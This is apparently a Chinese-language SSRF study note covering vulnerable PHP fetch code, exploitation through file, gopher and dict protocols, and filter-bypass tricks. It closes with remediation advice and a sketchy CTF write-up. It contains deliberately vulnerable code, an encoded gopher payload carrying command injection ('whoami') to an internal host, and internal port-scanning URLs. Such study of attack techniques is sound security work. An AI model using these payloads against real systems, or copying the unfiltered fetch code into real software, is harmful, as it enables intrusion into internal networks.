


# SSRF

## SSRF基础

> - http://www.zzy0.cn/#!./Web-back-end/SSRF-liyong.md
>
> - https://www.cnblogs.com/0x7e/p/14463234.html
>
> - https://hackmd.io/@Lhaihai/H1B8PJ9hX

- SSRF(Server-Side Request     Forgery:服务器端请求伪造) 是一种由**攻击者构造**形成**由服务端发起请求**的一个安全漏洞。一般情况下，SSRF攻击的**目标是从外网无法访问的内部系统**。

- 对于普通的用户来讲，最多只能访问服务器A，查询普通信息。而访问不到服务器B和查询存放在服务器B中的重要信息。

- 对于它们之间的关系，说简单一点。

    1. 普通的用户和服务器A处于联网关系，与服务器B处于断网关系                      
    2. 而服务器A和服务器B处于联网关系。
    3. 所以我们把服务器A当作跳板，攻击/访问服务器B。
- SSRF 形成的原因大都是**由于服务端提供了从其他服务器应用获取数据的功能**且**没有对目标地址做过滤与限制**。比如从指定URL地址获取网页文本内容，加载指定地址的图片，下载等等。

- **服务器会解析我们输入的url**


我们要通过怎样的一个方式才能控制服务器A攻击服务器B呢？是不是只要A和B联网就能进行攻击了呢？

- 并不是的，我们需要利用服务器A的一些正常功能，将这些功能恶意使用，从而造成攻击。
- WEB功能上查找：
    - 由原理可以看出，SSRF是由于服务端获取其他服务器的相关信息的功能中形成的，因此我们大可以列举几种在web 应用中常见的从服务端获取其他服务器信息的的功能。
        	○ 通过URL地址分享网页内容
        	○ 转码服务：通过URL地址把原地址的网页内容调优使其适合手机屏幕浏览
        	○ 在线翻译：通过 URL地址翻译对应文本的内容。提供此功能的百度、有道等。
        	○ 图片加载与下载：通过 URL地址加载或下载图片
- 从URL关键字中寻找:  Share、wap、url、link、src、source、target、u、3g、display、sourceURL、imageURL、domain

一个基础的ssrf漏洞利用：

- 如果看到让用户输入url，导入外部链接的这些点，就可以去尝试一下
- 我们先验证，请求是否是服务器端发出的，最简单的方法，ceye.io。在ssrf内输入自己的域名标识符。
- 在验证完是由服务端发起的请求之后，此处就有可能存在SSRF，接下来需要验证此URL是否可以来请求对应的内网地址。

**php的ssrf：**

- 

- `php file_get_contents`:

    - 这个函数的作用是将整个文件读入一个字符串中，如果是url则会返回url的响应包，并且此函数是用于把文件的内容读入到一个字符串中的首选方法。

    - 下面的代码使用file_get_contents函数从用户指定的url获取图片。然后把它用一个随即文件名保存在硬盘上，并展示给用户。

        ```php+HTML
        <?php
        if(isset($_POST['url']))
        {
        $content=file_get_contents($_POST['url']);
        $filename='./images/'.rand().';img1.jpg';
        file_put_contents($filename,$content);
        echo $_POST['url'];
        $img="";
        }
        echo $img;
        ?>
        ```

- `php fsockopen()`

    ```php
    <?php
    $host = $_GET['url'];
    $fp = fsockopen("$host", 80, $errno, $errstr, 30);
    if (!$fp) {
        echo "$errstr ($errno)<br />\n";
    } else {
        $out = "GET / HTTP/1.1\r\n";
        $out .= "Host: $host\r\n";
        $out .= "Connection: Close\r\n\r\n";
        fwrite($fp, $out);
        while (!feof($fp)) {
            echo fgets($fp, 128);
        }
        fclose($fp);
    }
    
    ```

- php curl_exec(): 调用的是curl软件，支持很多协议。

    ```php
    <?php
    function curl($url){
        $ch = curl_init();
        curl_setopt($ch,CURLOPT_URL,$url);
        #curl_setopt($ch,CUPLOPT_HEADER,1);
        curl_exec($ch);
        curl_close($ch);
    }
    $url = $_GET['url'];
    curl($url);
    ?>
    
    ```

- **注意**

    ```
    1. 一般情况下PHP不会开启fopen的gopher wrapper
    2. file_get_contents的gopher协议不能URL编码
    3. file_get_contents关于Gopher的302跳转会出现bug，导致利用失败
    4. curl/libcurl 7.43 上gopher协议存在bug(%00截断) 经测试7.45 可用
    5. curl_exec() //默认不跟踪跳转，
    6. file_get_contents() // file_get_contents支持 php://input协议
    ```

    

## SSRF利用

> **curl**软件在SSRF漏洞有非常重要的作用，当然在burpsuite上改也一样。
>
> 靶机：https://github.com/Duoduo-chino/ssrf_vul.git
>
> https://chenlvtang.top/2021/10/09/%E8%B7%9F%E7%9D%80%E5%9B%BD%E5%85%89%E5%B8%88%E5%82%85%E5%AD%A6%E4%B9%A0SSRF/


#### **利用file协议任意文件读取：**（不支持相对路径）

- 
- `file:///etc/hosts` 查看内网网段。为我们后面的内网资产收集打下基础。

#### **http：**

- 探测内网主机web服务，http请求除了探测到web服务，还可以探测其他的服务，比如mysql，只要有回显就行。（待补充）。
- **先利用http协议访问我们的dnslog，查看是否存在ssrf。**
- **通过http攻击内网web服务器。****只能使用get请求。**

- **在burpsuite修改payload的时候，要注意编码两次特殊字符，因为burp发过去，服务器会解码一次，然后http协议请求中，url参数的特殊字符还要编码一次，不然url就非法了。**

#### gopher

> https://github.com/tarunkant/Gopherus 利用工具，多种gopher协议写的exp

- 使用gopher协议就可以传递TCP数据流，传递一个**POST**自然是不在话下。
- gopher协议的请求格式为: `gopher://ip:port/_TCP报文`，这里之所以有一个下划线”_“，是因为gopher协议会吃掉第一个字符，所以放一个来占位，没实际意思。
- port缺省时默认使用70端口，所以即使你访问的Web是80端口，也请记得带上端口进行gopher请求。
- TCP协议以`\r\n`来回车换行，url编码为`%0d%0a`
- 因为是在Burp中构造报文来SSRF，所以我们依然要进行三次URL编码，第一次是Burp传到服务器会进行一次解码，第二次是gopher协议所带的数据会进行解码（和发送的http包的编码没有关系）。**而且如果url中有特殊字符和post body中有特殊字符，还需要编码特殊字符，也就是第三次编码**
- **记得删除post包的`Accept-Encoding`,**
    - 我们请求网页时，服务器返回给我们的信息有时是经过压缩的，只有解压才能获取我们想要的数据
    - 但是我们gopher协议毕竟不是浏览器，没法解压数据，所以要删除这个字段。

**简单的攻击内网web服务：**

- 比如内网ip`172.72.23.24:80`存在一个命令注入的输入框，但是是post请求。

    - 

    - 先构造好一个post请求，因为是对内网ip的请求，所以只能自己构造。

        ```http
        POST / HTTP/1.1
        Host: 172.72.23.24
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
        Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
        Connection: close
        Upgrade-Insecure-Requests: 1
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 19
        
        ip=127.0.0.1;whoami
        ```

    - 这就是gopher需要携带的数据了，但是因为gopher会url解码，所以我们要将全部数据url编码。TCP协议以`\r\n`来回车换行，http头也是以\r\n换行的，所以直接url编码就行。

    - 然后进行第二次url编码，这次是因为我是是在burp里面修改post请求的body，body本身就会解码，所以我们需要编码一次。

        ```http
        POST / HTTP/1.1
        Host: www.test.com:8080
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
        Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
        Accept-Encoding: gzip, deflate
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 4017
        Origin: http://www.test.com:8080
        Connection: close
        Referer: http://www.test.com:8080/
        Upgrade-Insecure-Requests: 1
        
        url=gopher://172.72.23.24:80/_%25%35%30%25%34%66%25%35%33%25%35%34%25%32%30%25%32%66%25%32%30%25%34%38%25%35%34%25%35%34%25%35%30%25%32%66%25%33%31%25%32%65%25%33%31%25%30%64%25%30%61%25%34%38%25%36%66%25%37%33%25%37%34%25%33%61%25%32%30%25%33%31%25%33%37%25%33%32%25%32%65%25%33%37%25%33%32%25%32%65%25%33%32%25%33%33%25%32%65%25%33%32%25%33%34%25%30%64%25%30%61%25%35%35%25%37%33%25%36%35%25%37%32%25%32%64%25%34%31%25%36%37%25%36%35%25%36%65%25%37%34%25%33%61%25%32%30%25%34%64%25%36%66%25%37%61%25%36%39%25%36%63%25%36%63%25%36%31%25%32%66%25%33%35%25%32%65%25%33%30%25%32%30%25%32%38%25%35%37%25%36%39%25%36%65%25%36%34%25%36%66%25%37%37%25%37%33%25%32%30%25%34%65%25%35%34%25%32%30%25%33%31%25%33%30%25%32%65%25%33%30%25%33%62%25%32%30%25%35%37%25%36%39%25%36%65%25%33%36%25%33%34%25%33%62%25%32%30%25%37%38%25%33%36%25%33%34%25%33%62%25%32%30%25%37%32%25%37%36%25%33%61%25%33%31%25%33%30%25%33%33%25%32%65%25%33%30%25%32%39%25%32%30%25%34%37%25%36%35%25%36%33%25%36%62%25%36%66%25%32%66%25%33%32%25%33%30%25%33%31%25%33%30%25%33%30%25%33%31%25%33%30%25%33%31%25%32%30%25%34%36%25%36%39%25%37%32%25%36%35%25%36%36%25%36%66%25%37%38%25%32%66%25%33%31%25%33%30%25%33%33%25%32%65%25%33%30%25%30%64%25%30%61%25%34%31%25%36%33%25%36%33%25%36%35%25%37%30%25%37%34%25%33%61%25%32%30%25%37%34%25%36%35%25%37%38%25%37%34%25%32%66%25%36%38%25%37%34%25%36%64%25%36%63%25%32%63%25%36%31%25%37%30%25%37%30%25%36%63%25%36%39%25%36%33%25%36%31%25%37%34%25%36%39%25%36%66%25%36%65%25%32%66%25%37%38%25%36%38%25%37%34%25%36%64%25%36%63%25%32%62%25%37%38%25%36%64%25%36%63%25%32%63%25%36%31%25%37%30%25%37%30%25%36%63%25%36%39%25%36%33%25%36%31%25%37%34%25%36%39%25%36%66%25%36%65%25%32%66%25%37%38%25%36%64%25%36%63%25%33%62%25%37%31%25%33%64%25%33%30%25%32%65%25%33%39%25%32%63%25%36%39%25%36%64%25%36%31%25%36%37%25%36%35%25%32%66%25%36%31%25%37%36%25%36%39%25%36%36%25%32%63%25%36%39%25%36%64%25%36%31%25%36%37%25%36%35%25%32%66%25%37%37%25%36%35%25%36%32%25%37%30%25%32%63%25%32%61%25%32%66%25%32%61%25%33%62%25%37%31%25%33%64%25%33%30%25%32%65%25%33%38%25%30%64%25%30%61%25%34%31%25%36%33%25%36%33%25%36%35%25%37%30%25%37%34%25%32%64%25%34%63%25%36%31%25%36%65%25%36%37%25%37%35%25%36%31%25%36%37%25%36%35%25%33%61%25%32%30%25%37%61%25%36%38%25%32%64%25%34%33%25%34%65%25%32%63%25%37%61%25%36%38%25%33%62%25%37%31%25%33%64%25%33%30%25%32%65%25%33%38%25%32%63%25%37%61%25%36%38%25%32%64%25%35%34%25%35%37%25%33%62%25%37%31%25%33%64%25%33%30%25%32%65%25%33%37%25%32%63%25%37%61%25%36%38%25%32%64%25%34%38%25%34%62%25%33%62%25%37%31%25%33%64%25%33%30%25%32%65%25%33%35%25%32%63%25%36%35%25%36%65%25%32%64%25%35%35%25%35%33%25%33%62%25%37%31%25%33%64%25%33%30%25%32%65%25%33%33%25%32%63%25%36%35%25%36%65%25%33%62%25%37%31%25%33%64%25%33%30%25%32%65%25%33%32%25%30%64%25%30%61%25%34%33%25%36%66%25%36%65%25%36%65%25%36%35%25%36%33%25%37%34%25%36%39%25%36%66%25%36%65%25%33%61%25%32%30%25%36%33%25%36%63%25%36%66%25%37%33%25%36%35%25%30%64%25%30%61%25%35%35%25%37%30%25%36%37%25%37%32%25%36%31%25%36%34%25%36%35%25%32%64%25%34%39%25%36%65%25%37%33%25%36%35%25%36%33%25%37%35%25%37%32%25%36%35%25%32%64%25%35%32%25%36%35%25%37%31%25%37%35%25%36%35%25%37%33%25%37%34%25%37%33%25%33%61%25%32%30%25%33%31%25%30%64%25%30%61%25%34%33%25%36%66%25%36%65%25%37%34%25%36%35%25%36%65%25%37%34%25%32%64%25%35%34%25%37%39%25%37%30%25%36%35%25%33%61%25%32%30%25%36%31%25%37%30%25%37%30%25%36%63%25%36%39%25%36%33%25%36%31%25%37%34%25%36%39%25%36%66%25%36%65%25%32%66%25%37%38%25%32%64%25%37%37%25%37%37%25%37%37%25%32%64%25%36%36%25%36%66%25%37%32%25%36%64%25%32%64%25%37%35%25%37%32%25%36%63%25%36%35%25%36%65%25%36%33%25%36%66%25%36%34%25%36%35%25%36%34%25%30%64%25%30%61%25%34%33%25%36%66%25%36%65%25%37%34%25%36%35%25%36%65%25%37%34%25%32%64%25%34%63%25%36%35%25%36%65%25%36%37%25%37%34%25%36%38%25%33%61%25%32%30%25%33%31%25%33%39%25%30%64%25%30%61%25%30%64%25%30%61%25%36%39%25%37%30%25%33%64%25%33%31%25%33%32%25%33%37%25%32%65%25%33%30%25%32%65%25%33%30%25%32%65%25%33%31%25%33%62%25%37%37%25%36%38%25%36%66%25%36%31%25%36%64%25%36%39
        ```

    - 

    - **如果http包中有url有特殊符号，post body也有特殊符号都要进行编码。**

    - 比如`ls -al` 命令中间有个空格，空格对于post body来说是个特殊字符，所以我们第一步编码特殊字符。之后就和上面一样了。

        ```
        POST / HTTP/1.1
        Host: 172.72.23.24
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
        Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
        Connection: close
        Upgrade-Insecure-Requests: 1
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 22
        
        ip=127.0.0.1;ls%20-a
        ```

#### gopher攻击redis

- gopher之redis：
    - 使用dict先查看下redis相关配置：`dict://172.72.23.27:6379/info`，能查看就是未授权访问。
    - 当知晓redis密码时候，也可以利用

攻击mysql：

- MySQL分为服务端和客户端。MySQL数据库用户认证采用的是 挑战/应答 的方式，即服务器生成该挑战码(scramble)并发送给客户端，客户端用挑战码将自己的密码进行加密后，并将相应的加密结果返回给服务器，服务器本地用挑战码的将用户的密码加密，如果加密的结果和用户返回的加密的结果相同则用户认证成功，从而完成用户认证的过程。
- 登录时需要用服务器发来的挑战码(scramble)将密码加密，但是当数据库用户密码为空时，加密后的密文也为空。客户端给服务端发的认证包就是相对固定的了。这样就无需交互了，可以通过Gopher协议来直接发送了。

#### php下独有利用：

- 支持的协议，可以使用`curl -V`查看。

- dict：

    - dict 协议是一个字典服务器协议，就是用来查单词的那种字典。字典服务器本来是为了让客户端使用过程中能够访问更多的字典源。

    - `dict://<user-auth>@<host>:<port>/d:<word> (dict://+ip:端口+/+TCP/IP 数据)`

    - dict协议可以用来扫描端口，但是只能探测TCP端口有回显的服务 

        ```
        ssrf.php?url=dict://192.168.52.131:6379/info ? // redis
        ssrf.php?url=dict://192.168.52.131:80/info ? ? // http
        ssrf.php?url=dict://192.168.52.130:22/info ? // ssh
        ```

    - 爆破内网c段，和常用端口：

        `url=dict://xxx.xxx.xxx.1:80`

        

        - 
        - 发现了内网的主机和服务。

    - 攻击redis服务：与 gopher 相比，dict一次只能发送一条指令，如果一个组件可以一步一步操作（比如 redis），那么才可以利用，那么很明显，需要认证的 redis 是无法通过 dict 攻击的，但是可以用来爆破密码。

    

- sftp：

    - 

- tftp

- ldap

- 利用phar://协议来触发反序列化漏洞

#### java：

> https://xz.aliyun.com/t/206

- 由于Java没有php的cURL，所以Java SSRF支持的协议，不能像php使用`curl -V`查看。相对于php，在java中SSRF的利用局限较大，
- 一般利用http协议来探测端口
- 利用file协议读取任意文件。
- 常见的类中如HttpURLConnection，URLConnection，HttpClients中只支持sun.net.www.protocol (java 1.8)里的所有协议:http，https，file，ftp，mailto，jar，netdoc。
- 但这里需要注意一个漏洞，那就是weblogic的ssrf，这个ssrf是可以攻击可利用的redis拿shell的。在开始看到这个漏洞的时候，笔者感到很奇怪，因为一般java中的ssrf是无法攻击redis的

## SSRF绕过

> https://cloud.tencent.com/developer/article/1942119

**限制不能访问本机ip和内网ip**

1. **@**

    - ```url
        http://abc@127.0.0.1
        实际上是以用户名abc连接到站点127.0.0.1，同理
        http://8.8.8.8@127.0.0.1:8080、http://127.0.0.1#8.8.8.8
        ```

    - 在对@解析域名中，不同的处理函数存在处理差异，如：

        ```url
        http://www.aaa.com@www.bbb.com@www.ccc.com
        在PHP的`parse_url`中会识别www.ccc.com，而`libcur`l则识别为www.bbb.com
        ```

2. 本地回环地址的其他表现形式

    - **127.0.0.1**，通常被称为本地回环地址(Loopback Address)，指本机的虚拟接口，一些表示方法如下(ipv6的地址使用http访问需要加[])：

    - ```url
        http://127.0.0.1 
        http://localhost 
        http://127.255.255.254 
        127.0.0.1 - 127.255.255.254 
        http://[::1] 
        http://[::ffff:7f00:1] 
        http://[::ffff:127.0.0.1] 
        http://127.1 
        http://127.0.1 
        http://0:80
        ```

3. **添加端口号**：`http://127.0.0.1:8080`

8. .利用ip进制转换

    1. 由于IP地址可以用多种格式表示，因此可以在URL中如下所示使用：

    2. ```
        点分十进制IP地址：http://216.58.199.78
        
        八进制IP地址：http://0330.0072.0307.0116（将每个十进制数字转换为八进制）
        
        十六进制IP地址：http://0xD83AC74E或者http://0xD8.0x3A.0xC7.0x4E（将每个十进制数字转换为十六进制）
        
        整数或DWORD IP地址：http://3627730766（将十六进制IP转换为整数）
        ```

9. 在浏览器中可以使用不同的分割符号来代替域名中的.分割，可以使用`。、｡、．`来代替：

    `127。0。0。1  >>>  127.0.0.1`

10. 302跳转

    1. 可以使用重定向来让服务器访问目标地址，可用于重定向的HTTP状态码：300、301、302、303、305、307、308。

    2. 需要一个vps，把302转换的代码部署到vps上，然后去访问，就可跳转到内网中

    3. 服务端代码如下：

         ```php
         <?php 
         header("Location: http://192.168.1.10");
         exit(); 
         ?>
         ```

    4. **利用短网址**

        - [站长工具短网址](http://tool.chinaz.com/tools/dwz.aspx)

        - 比如`http://mtw.so/6c4b7e`是`http://127.0.0.1/flag.php`生成的短链接。

11. **DNS解析**

    1. 配置域名的DNS解析到目标地址(A、cname等)，这里有几个配置解析到任意的地址的域名：

        ```
        nslookup 127.0.0.1.nip.io
        
        nslookup owasp.org.127.0.0.1.nip.io
        ```

    2. xip.io是一个开源泛域名服务。它会把如下的域名解析到特定的地址，就不用我们搞一个dns服务了。

        ```
        http://10.0.0.1.xip.io = 10.0.0.1
        www.10.0.0.1.xip.io= 10.0.0.1
        http://mysite.10.0.0.1.xip.io = 10.0.0.1
        foo.http://bar.10.0.0.1.xip.io = 10.0.0.1
        10.0.0.1.xip.name resolves to 10.0.0.1
        www.10.0.0.2.xip.name resolves to 10.0.0.2
        foo.10.0.0.3.xip.name resolves to 10.0.0.3
        bar.baz.10.0.0.4.xip.name resolves to 10.0.0.4
        ```

12. DNS重绑定

13. **封闭式字母数字 (Enclosed Alphanumerics)字符**

## SSRF修复

- 禁止302跳转，或者每跳转一次都进行校验目的地址是否为内网地址或合法地址。
- 过滤返回信息，验证远程服务器对请求的返回结果，是否合法。
- 限制请求的协议，比如只允许http/https请求。可以防止类似于file:///,gopher://,ftp:// 等引起的问题。
- 限制请求的端口，比如只允许80,443,8080,8090。
- 将私有ip设置为黑名单。避免访问内网
- 设置url白名单，只允许url中域名为特定域名。
- 统一错误信息，避免用户可以根据错误信息来判断远端服务器的端口状态。

#  实例

###  SSRF03

第三道题换汤不换药

爆破 根据返回数据长度得出端口 1998


 访问呗



 要获得一个啥值，这里需要一个公网VPS服务器。


 得出结果，按它的提示传参

得出flag

